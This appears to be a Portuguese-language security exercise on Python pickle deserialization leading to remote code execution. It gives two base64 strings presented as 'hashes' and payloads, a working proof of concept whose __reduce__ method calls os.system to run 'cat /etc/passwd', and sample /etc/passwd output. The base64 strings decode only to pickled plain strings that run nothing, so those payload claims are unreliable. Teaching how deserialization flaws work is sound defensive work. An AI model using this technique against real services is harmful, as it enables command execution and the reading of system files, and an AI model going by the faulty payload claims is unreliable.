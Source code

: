 ## Módulo 02 / Exercício 00 - Deserialization with RCE - Payloads

Os atacantes podem simular injetando diversos valores. Nesse exercício, os dados enviados precisam ser serializados com o Pickle e depois gerado um hash de base64. Porém, a vulnerabilidade ocorre porque não há um tratamento que valide que os dados de entradas são confiáveis.

Para o comando **cat /etc/passwd**, geramos os seguintes hashes:

Python Versão < 3:

    UydjYXQgL2V0Yy9wYXNzd2QnCnAwCi4=

Python Versão >= 3:

    gASVEwAAAAAAAACMD2NhdCAvZXRjL3Bhc3N3ZJQu
  

Aqui é possível verificar um trecho de código que apresenta a a vulnerabilidade no próprio pickle:

    import pickle
    import os
    import sys

    class RCE:
        def __reduce__(self):
            return (os.system, ('cat /etc/passwd',))

    # Serializando o objeto malicioso
    malicious_pickle = pickle.dumps(RCE())

    # Desserializando o objeto malicioso
    pickle.loads(malicious_pickle)


Verificará que a mesmo não tendo qualquer retorno no médoto, o pickle.loads acabará executando o comando **cat /etc/passwd**.

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ...
    speech-dispatcher:x:131:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
    zabbix:x:132:140::/nonexistent:/usr/sbin/nologin